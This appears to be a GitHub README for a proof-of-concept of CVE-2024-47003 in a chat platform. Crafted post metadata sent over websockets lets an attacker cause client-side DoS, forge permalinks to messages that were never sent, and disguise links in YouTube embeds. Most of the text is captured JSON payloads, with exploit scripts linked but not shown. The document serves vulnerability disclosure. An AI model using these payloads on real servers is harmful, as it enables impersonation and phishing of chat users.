


# CVE-2024-47003

## Impact

Able to send posts with arbitrary metadata e.g. embeds

Can be used for

- DoS (client side)
- impersonating people (permalinks to messages that don't exist)
- phishing (via e.g. youtube link pointing to somewhere else)
- probably a lot more...

### DoS


### Customizable Permalink



### Youtube Embeds




## Exploitation

This works because the `metadata` we specify when creating a post gets broadcasted via websockets.
The arbitrary metadata from that isn't actually saved to the database.

### DoS

See [Exploit](./scripts/dos.ts) used in [demo](./assets/dos.mp4)

### Customizable Permalink

See [Exploit](./scripts/index.ts) used for [screenshot](./assets/fully-customizable-permalink.mp4)

#### Post from WS Connection

```json
{
  "event": "posted",
  "data": {
    "channel_display_name": "@arthurd",
    "channel_name": "1wt8aoiskjg99dap81jx4zjejc__w1bycrx7apy3xn31j7dyszahfa",
    "channel_type": "D",
    "mentions": "[\"w1bycrx7apy3xn31j7dyszahfa\"]",
    "post": "{\"id\":\"ju9uuu3xnjy1pymrp8siyk3t1o\",\"create_at\":1717763281641,\"update_at\":1717763281641,\"edit_at\":0,\"delete_at\":0,\"is_pinned\":false,\"user_id\":\"1wt8aoiskjg99dap81jx4zjejc\",\"channel_id\":\"ucatpix4girt5rp3w4xunng14o\",\"root_id\":\"\",\"original_id\":\"\",\"message\":\"\",\"type\":\"\",\"props\":{\"previewed_post\":\"96nffx8oztncuyyxq7nj7p8seh\"},\"hashtags\":\"\",\"pending_post_id\":\"\",\"reply_count\":0,\"last_reply_at\":0,\"participants\":null,\"metadata\":{\"embeds\":[{\"type\":\"permalink\",\"data\":{\"channel_display_name\":\"can-be-anything-i-want\",\"channel_id\":\"\",\"channel_type\":\"O\",\"post\":{\"channel_id\":\"doesnt-matter\",\"hashtags\":\"\",\"id\":\"96nffx8oztncuyyxq7nj7p8seh\",\"last_reply_at\":0,\"message\":\"This can be whatever i want\",\"metadata\":{},\"original_id\":\"\",\"participants\":[],\"props\":{},\"reply_count\":0,\"root_id\":\"\",\"type\":\"\",\"user_id\":\"teur4prbifnh7dhq5rh3cp7q4c\"},\"post_id\":\"96nffx8oztncuyyxq7nj7p8seh\",\"team_name\":\"\"}}]}}",
    "sender_name": "@arthurd",
    "set_online": true,
    "should_ack": true,
    "team_id": ""
  },
  "broadcast": {
    "omit_users": null,
    "user_id": "w1bycrx7apy3xn31j7dyszahfa",
    "channel_id": "ucatpix4girt5rp3w4xunng14o",
    "team_id": "",
    "connection_id": "",
    "omit_connection_id": ""
  },
  "seq": 10
}
```

#### Get Request of that Post

```json
{
  "id": "ju9uuu3xnjy1pymrp8siyk3t1o",
  "create_at": 1717763281641,
  "update_at": 1717763281641,
  "edit_at": 0,
  "delete_at": 0,
  "is_pinned": false,
  "user_id": "1wt8aoiskjg99dap81jx4zjejc",
  "channel_id": "ucatpix4girt5rp3w4xunng14o",
  "root_id": "",
  "original_id": "",
  "message": "",
  "type": "",
  "props": {
    "previewed_post": "96nffx8oztncuyyxq7nj7p8seh"
  },
  "hashtags": "",
  "pending_post_id": "",
  "reply_count": 0,
  "last_reply_at": 0,
  "participants": null,
  "metadata": {}
}
```

### Youtube Embeds

See [Exploit](./scripts/youtube.ts) used for screenshots:

- [custom url](./assets/customizable-url-youtube-embed.png)
- [other stuff such as title](./assets/customizable-title-youtube-embed.png)

#### Post from WS connection (custom url)

```json
{
  "event": "posted",
  "data": {
    "channel_display_name": "@arthurd",
    "channel_name": "1wt8aoiskjg99dap81jx4zjejc__w1bycrx7apy3xn31j7dyszahfa",
    "channel_type": "D",
    "mentions": "[\"w1bycrx7apy3xn31j7dyszahfa\"]",
    "post": "{\"id\":\"rpaioun83fds5ppf78bstpp3pw\",\"create_at\":1717764679114,\"update_at\":1717764679114,\"edit_at\":0,\"delete_at\":0,\"is_pinned\":false,\"user_id\":\"1wt8aoiskjg99dap81jx4zjejc\",\"channel_id\":\"ucatpix4girt5rp3w4xunng14o\",\"root_id\":\"\",\"original_id\":\"\",\"message\":\"\",\"type\":\"\",\"props\":{},\"hashtags\":\"\",\"pending_post_id\":\"\",\"reply_count\":0,\"last_reply_at\":0,\"participants\":null,\"metadata\":{\"embeds\":[{\"type\":\"opengraph\",\"url\":\"https://github.com/c0rydoras?ignore=https://youtube.com/watch?v=dQw4w9WgXcQ\",\"data\":{\"audios\":null,\"description\":\"The official video for “Never Gonna Give You Up” by Rick Astley. The new album 'Are We There Yet?' is out now: Download here: https://RickAstley.lnk.to/AreWe...\",\"determiner\":\"\",\"images\":[{\"height\":720,\"secure_url\":\"\",\"type\":\"\",\"url\":\"https://i.ytimg.com/vi/dQw4w9WgXcQ/maxresdefault.jpg\",\"width\":1280}],\"locale\":\"\",\"locales_alternate\":null,\"site_name\":\"YouTube\",\"title\":\"Rick Astley - Never Gonna Give You Up (Official Music Video)\",\"type\":\"video.other\",\"url\":\"https://www.youtube.com/watch?v=dQw4w9WgXcQ\",\"videos\":null}}]}}",
    "sender_name": "@arthurd",
    "set_online": true,
    "should_ack": true,
    "team_id": ""
  },
  "broadcast": {
    "omit_users": null,
    "user_id": "",
    "channel_id": "ucatpix4girt5rp3w4xunng14o",
    "team_id": "",
    "connection_id": "",
    "omit_connection_id": ""
  },
  "seq": 4
}
```

#### Get Request of that Post

```json
{
  "id": "rpaioun83fds5ppf78bstpp3pw",
  "create_at": 1717764679114,
  "update_at": 1717764679114,
  "edit_at": 0,
  "delete_at": 0,
  "is_pinned": false,
  "user_id": "1wt8aoiskjg99dap81jx4zjejc",
  "channel_id": "ucatpix4girt5rp3w4xunng14o",
  "root_id": "",
  "original_id": "",
  "message": "",
  "type": "",
  "props": {},
  "hashtags": "",
  "pending_post_id": "",
  "reply_count": 0,
  "last_reply_at": 0,
  "participants": null,
  "metadata": {}
}
```
